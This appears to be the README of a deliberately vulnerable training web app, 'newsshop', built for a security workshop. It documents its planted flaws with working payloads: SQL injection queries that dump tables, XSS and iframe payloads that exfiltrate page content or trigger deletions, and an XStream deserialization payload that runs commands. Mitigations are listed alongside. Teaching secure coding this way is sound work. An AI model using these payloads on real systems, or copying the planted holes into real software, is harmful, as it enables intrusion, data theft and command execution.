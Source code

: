 newsshop
========

## Included known vulnerabilities:

### SQL Injection
* `name` field is vulnerable to SQL Injection
  * in a first step the attacker might read all tables in the database with
    ```
    ' or 1=1 UNION SELECT 0,false, 'alle','',GROUP_CONCAT(TABLE_NAME SEPARATOR ', '),'' FROM INFORMATION_SCHEMA.TABLES;--
    ```
  * in a second step he may read the contents of `LAUNCH_CODE`
    ```
    ' or 1=1 UNION SELECT 0,false, 'Abschusscodes','',GROUP_CONCAT(CONCAT(DEVICE, ':', LAUNCH_CODE) SEPARATOR ', '),'' FROM LAUNCH_CODE;--
    ```

### Cross Site Scripting
* `source` field is vulnerable to XSS
  ```
  <img src="a" onerror="alert('hacked')" />
  ```
	or
  ```
  <img src="a" onerror="alert('sending this text to my domain:\n' + document.body.innerText)" />
  ```
  
  
### Legacy attributes in API
* the newsletter support more attributes than the newsletter form
  * the field `mailProperties` may be filled with JSON/HTML by using a rest client/or browser tools
  * the field `mailproperites` itself is vulnerable to XSS

### Invalid Supply Chain
* xstream in 1.4.6 contains a command injection vulnerability
  * `http://localhost:8080/api/newsletter/import` with payload
    ```
    <newsletter class='dynamic-proxy'>
        <interface>com.andrena.newsshop.model.Newsletterable</interface>
        <handler class='java.beans.EventHandler'>
            <target class='java.lang.ProcessBuilder'>
                <command>
                    <string>calc.exe</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </newsletter>
    ```

### Privileges
* Admin and Users run in the same Application
* Database contains Newsletters but also Passwords from another team (that has nothing to do with newletters)

## Planned/Possible vulnerabilities:

### Regex Denial of Service
* some attribute of the newsletter could be validated with a regexp, that may expand in exponential time

### Broken serialization
* `mail properties` is at this time a json document with html contents. It may also be yaml. Maybe it can be used to inject a serialization vulnerability

### Reflected/DOM XSS
* the confirmation page/error page could embedded html in and unsafe way allowing XSS
  * depedent on the source of JS-Injectable 
    * url parameter => DOM XSS
    * result of the former api call => Reflected XSS

## Mitigation

### Validate Input

* Names need not contain double quotes
* Number input should be numeric
* JSON Input should be JSON
* Richtext may contain HTML, but only formatting, no links, no images, no iframes
* dropdowns should be in a list of options

### sanitize output to other systems

* For SQL use Prepared Statements or equivalents
  * Never use user dependent SQL Templates (whenever the template string cannot be proofed to be in a finite set of texts, this should be alerting)
* For Serialization limit the types of the result
  * Limiting to interfaces should be considered harmful (because these allow an infinite set of new sub classes)
* For Console Access
  * Limit to allowed commands

### Track the dependencies

* Update to the newest dependencies
* Check whether vulnerable dependencies are drawn
  * and check whether the vulnerable part is really depended on

### Control your privileges

* for databases
  * do not access the database with admin rights
  * restrict the user to exactly those tables that he needs (`grant ...`)
* in general
  * do not run with root privileges
    * unless really needed - an than return the privileges as soon as possible

### Content Security Policy

* not allowing onerrors to be defined in the page would prevent `<img onerror>` attacks

### more xss examples:
* Blind XSS (executed on admin page)
* send page content to other server
```
<iframe src="javascript:console.log('xss?', window.parent.document.body.innerHTML)"></iframe>

<iframe src="javascript:fetch('http://localhost:8080', {
  method: 'POST',
  body: window.parent.document.body.innerHTML
})
"></iframe>
```
* delete entries in table
```
<iframe src="javascript:window.parent.document.querySelector('.delete-btn').click()"></iframe>
```

### to be continued
* add XSS to confirmation page
* add OpenAPI 
* add old urls in the frontend code (to hint at mail properties?)

### Next steps:
* docker
* Struktur/Ablauf Workshop mit Secorvo, insbesondere die Inhalte (erstmal abwarten): Wie soll der Kurs laufen?
* Folien fertigstellen
* Tests für die Maßnahmen: Input Validation,...
* Hints: über Anwendung, Handouts, über Fragen während des Workshops (die kann man schon vorbereiten)


### how to get the participants to the attacks

* admin password can be guessed (should just be used to see the results of XSS and not as an attack)
* e-mail: enter same value twice
* sql: try the different input fields, start with '
* MailProperties: guess, try things out, admin dashboard

### complete fetch code for invalid supply chain on mac 
* post into browser console
```
fetch("http://localhost:8080/api/newsletter/import", {
headers: {
"accept": "application/json, text/plain, */*",
"authorization": "Basic YWRtaW46YWRtaW4=",
"cache-control": "no-cache",
"Content-Type": "application/xml"
},
referrer: "http://localhost:8080/subscribe.html",
referrerPolicy: "strict-origin-when-cross-origin",
body: `<newsletter class="dynamic-proxy">
        <interface>com.andrena.newsshop.model.Newsletterable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                    <string>touch</string>
                    <string>mynewfile</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </newsletter>`,
method: "POST",
mode: "cors",
credentials: "include"
});
```

* connect to image and look for the generated file
```
$ docker exec -it newsshop-app-1 /bin/sh
/app # ls
```
